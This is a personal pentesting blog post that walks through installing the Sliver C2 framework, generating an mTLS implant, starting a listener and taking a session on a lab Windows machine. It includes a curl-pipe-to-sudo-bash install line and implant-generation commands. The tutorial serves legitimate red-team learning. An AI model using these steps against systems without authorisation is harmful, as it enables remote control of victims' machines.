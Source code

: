 ```yaml
---
layout: post
title: "The Sliver C2 Installation and Demo"
subtitle: "~ Time to lean into C2's ~"
date: 2023-10-09
author: ha3ks
tags: blog ctf pentesting c2 sliver
category: Tooling
---
```


[![1](/assets/blog/sliver_C2/1.png)](/assets/blog/sliver_C2/1.png)

Hey Friends, today we are taking a look at Sliver (the C2). You may have heard of it, you may have seen it, hell you could even be an expert in it's use but if you are anything like me you have seen 'C2' and thought 'that would be cool one day' and then never got around to even trying it.

Well look no further, I am here to show you how easy it is to get running and get rolling, so let's get right into it!

First things first, we need to bust open a terminal and head over to where you want to run the install, the majority of the time this will be '/opt' in Kali (/opt is used for installing third party packages and it pays to keep things 'uniform'):

```
cd /opt
```

After that we want to get a copy of Sliver onto our machine. Handily as Bishop Fox put it all online in a tidy git repo it allows us to do a quick little git clone and we are away:

```
sudo git clone https://github.com/BishopFox/sliver.git
```

This latest version (1.6.0 at time of writing) features: 

* Dynamic code generation
* Compile-time obfuscation
* Multiplayer-mode
* Staged and Stageless payloads
* Procedurally generated C2 over HTTP(S)
* DNS canary blue team detection
* Secure C2 over mTLS, WireGuard, HTTP(S), and DNS
* Fully scriptable using JavaScript/TypeScript or Python
* Windows process migration, process injection, user token manipulation, etc.
* Let's Encrypt integration
* In-memory .NET assembly execution
* COFF/BOF in-memory loader
* TCP and named pipe pivots
* Much more!

Once downloaded an 'ls' command should show a 'sliver' folder now in our /opt folder.

[![2](/assets/blog/sliver_C2/2.png)](/assets/blog/sliver_C2/2.png)

Now we can navigate into the sliver folder:

```
cd sliver
```

Next task is to run the installation for sliver, the following is a handy oneliner shown on the README for sliver and does the job for us:

```
curl https://sliver.sh/install|sudo bash
```

Finally you can run sliver by entering 'sliver' into the terminal (this works in any directory BTW, it's a 'global' attribute so you could open a terminal anywhere on your machine and type in 'sliver' and get going).

[![3](/assets/blog/sliver_C2/3.png)](/assets/blog/sliver_C2/3.png)

Ok, so that wasn't so hard.

As with all tooling if you are unsure how to us it.... just run the 'help' command:

```
sliver > help

Commands:
=========
  clear       clear the screen
  exit        exit the shell
  help        use 'help [command]' for command help
  monitor     Monitor threat intel platforms for Sliver implants
  wg-config   Generate a new WireGuard client config
  wg-portfwd  List ports forwarded by the WireGuard tun interface
  wg-socks    List socks servers listening on the WireGuard tun interface


Generic:
========
  aliases           List current aliases
  armory            Automatically download and install extensions/aliases
  background        Background an active session
  beacons           Manage beacons
  builders          List external builders
  canaries          List previously generated canaries
  cursed            Chrome/electron post-exploitation tool kit (∩｀-´)⊃━☆ﾟ.*･｡ﾟ
  dns               Start a DNS listener
  env               List environment variables
  generate          Generate an implant binary
  hosts             Manage the database of hosts
  http              Start an HTTP listener
  https             Start an HTTPS listener
  implants          List implant builds
  jobs              Job control
  licenses          Open source licenses
  loot              Manage the server's loot store
  mtls              Start an mTLS listener
  prelude-operator  Manage connection to Prelude's Operator
  profiles          List existing profiles
  reaction          Manage automatic reactions to events
  regenerate        Regenerate an implant
  sessions          Session management
  settings          Manage client settings
  stage-listener    Start a stager listener
  tasks             Beacon task management
  update            Check for updates
  use               Switch the active session or beacon
  version           Display version information
  websites          Host static content (used with HTTP C2)
  wg                Start a WireGuard listener


Multiplayer:
============
  operators  Manage operators


For even more information, please see our wiki: https://github.com/BishopFox/sliver/wiki
```

Now remember I am not an expert here I am just playing around to test it's functionality.

Having done some of the Red Team Operator Certification from ZeroPoint Security I am familiar with using Cobalt Strike, so the next step would be generating some kind of Beacon or Implant, getting it over to a victim machine and connecting to it.

To generate a generic implant we can use:

```
generate --mtls <your ip> --arch <OS type> --save <output directory>
```

[![4](/assets/blog/sliver_C2/4.png)](/assets/blog/sliver_C2/4.png)

Once complete it will have created a payload in your desired location. Since I can drag and drop I picked my desktop (above) though if you wanted to you could spin up a HTTP server on your attacker machine and navigate to the address on your victim and download it:

[![5](/assets/blog/sliver_C2/5.png)](/assets/blog/sliver_C2/5.png)

Neat!

Also it's worth noting that the implant that has been generated is a bit hefty... 

[![6](/assets/blog/sliver_C2/6.png)](/assets/blog/sliver_C2/6.png)

I'm entirely sure there are ways to shrink this down to a more manageable size and as such less detectable but I just want to get it working and size doesn't matter...

Now that the implant is on the machine we need to get Sliver 'listening' for incoming requests by running 'mtls':

```
sliver > mtls
```

Ok to recap, we have our C2 server listening for a connection, we have our implant on the target... Let's see what happens when we run it:

[![7](/assets/blog/sliver_C2/7.png)](/assets/blog/sliver_C2/7.png)

*Clicks Run*

It has successfully executed on the victim (no other popups or warnings) and we can see it in the task manager:

[![8](/assets/blog/sliver_C2/8.png)](/assets/blog/sliver_C2/8.png)

Also on the Kali side, we can see Sliver has picked up the new connection:

[![9](/assets/blog/sliver_C2/9.png)](/assets/blog/sliver_C2/9.png)

Hooked!

# Now What?

Well now we can view 'sessions' and confirm the machine is accessable:

```
sliver > sessions

 ID         Transport   Remote Address          Hostname       Username              Operating System   Health  
========== =========== ======================= ============== ===================== ================== =========
 c1c1758c   mtls        192.168.197.129:60896   CORP-CLIENT1   HA3KS\Administrator   windows/386        [ALIVE] 
```

We can interact with a session by entering it's ID much like Meterpreter:

```
sessions -i c1c1758c
```

And finally, get a little bit of recon going:

[![10](/assets/blog/sliver_C2/10.png)](/assets/blog/sliver_C2/10.png)

It's as easy as that!

Now again you can do more with this and get things a little better obfuscated. For giggles I put the .exe into VirusTotal:

[![11](/assets/blog/sliver_C2/11.png)](/assets/blog/sliver_C2/11.png)

Ouch!

Good for a demo though.

Now you might be thinking "oh he's using Kali Linux, he's cheating" well, ok this is Sliver running on Ubuntu 22.04.3 LTS:

[![12](/assets/blog/sliver_C2/12.png)](/assets/blog/sliver_C2/12.png)

Also Parrot Security Edition 5.3:

[![13](/assets/blog/sliver_C2/13.png)](/assets/blog/sliver_C2/13.png)

Hehehe 'PROVINCIAL_BIKINI'

It works if you will it to... I wanted to try Hannah Montana Linux but since ubuntu took down the old versions of jammy it can't update anymore.. I'm sure with some time and further effort I could get it to upgrade and as such get Sliver running on it... Maybe a job for another day.

I hope this has been helpful/educational to people.

Be Safe 🤙

-------

I don't have any sponsors or anything but if you enjoy my work, or feel sympathy for my wife, then I have set up a [Ko-Fi account](https://ko-fi.com/ha3ks) as well as a [BuyMeACoffee](https://www.buymeacoffee.com/ha3ks) people can donate to.
